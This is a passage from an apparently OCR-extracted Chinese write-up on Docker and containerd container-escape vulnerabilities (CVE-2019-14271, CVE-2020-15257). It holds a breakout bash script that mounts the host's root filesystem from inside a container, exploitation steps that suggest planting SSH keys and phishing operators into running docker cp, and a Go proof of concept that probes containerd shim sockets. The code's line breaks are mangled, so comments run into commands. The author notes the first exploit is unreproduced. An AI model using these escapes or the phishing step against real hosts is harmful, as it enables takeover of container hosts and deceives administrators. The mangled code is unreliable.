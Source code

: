 breakout脚本

  *   *   *   *   *   *   *   *   *   * 

    
    
    #!/bin/bash  
    umount /host_fs && rm -rf /host_fsmkdir /host_fs  
      
    mount -t proc none /proc     # mount the host's procfs over /proccd /proc/1/root              # chdir to host's rootmount --bind . /host_fs      # mount host root at /host_fsecho "Hello from within the container!" > /host_fs/evil

漏洞利用

> 待完善，暂未复现，大致思路如下

1.编译libnss_files.c为libnss_files.so

2.修改breakout脚本，例如写ssh key 等

3.等待或通过钓鱼邮件等手段，使得运维人员执行`docker cp`

> ref:
>
> https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-
> vulnerability-to-date-with-cve-2019-14271/

##  **Docker-Containerd漏洞致容器逃逸(CVE-2020-15257)**

### 利用条件

  * containerd < 1.4.3

  * containerd < 1.3.9

  * 使用hostnetwork网络模式启动容器 && 使用root用户(UID:0)启动容器

### 漏洞原理

使用hostnetwork网络模式中，容器和主机共享网络命名空间，因此在容器内可以访问host特定的socket文件(shim.sock)。可通过启动一个新的容器，该容器挂在host目录到容器的/host目录，即可实现对host完全的读写。

### 漏洞POC

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (    "context"    "errors"    "io/ioutil"    "log"    "net"    "regexp"    "strings"  
        "github.com/containerd/ttrpc"    "github.com/gogo/protobuf/types")  
    func exp(sock string) bool {    sock = strings.Replace(sock, "@", "", -1)    conn, err := net.Dial("unix", "\x00"+sock)    if err != nil {        log.Println(err)        return false    }  
        client := ttrpc.NewClient(conn)    shimClient := NewShimClient(client)    ctx := context.Background()    info, err := shimClient.ShimInfo(ctx, &types.Empty{})    if err != nil {        log.Println("rpc error:", err)        return false    }  
        log.Println("shim pid:", info.ShimPid)    return true}  
    func getShimSockets() ([][]byte, error) {    re, err := regexp.Compile("@/containerd-shim/.*\\.sock")    if err != nil {        return nil, err    }    data, err := ioutil.ReadFile("/proc/net/unix")    matches := re.FindAll(data, -1)    if matches == nil {        return nil, errors.New("Cannot find vulnerable socket")    }    return matches, nil}  
    func main() {    matchset := make(map[string]bool)    socks, err := getShimSockets()    if err != nil {        log.Fatalln(err)    }    for _, b := range socks {        sockname := string(b)        if _, ok := matchset[sockname]; ok {            continue        }        log.Println("try socket:", sockname)        matchset[sockname] = true        if exp(sockname) {            break        }    }  
        return}
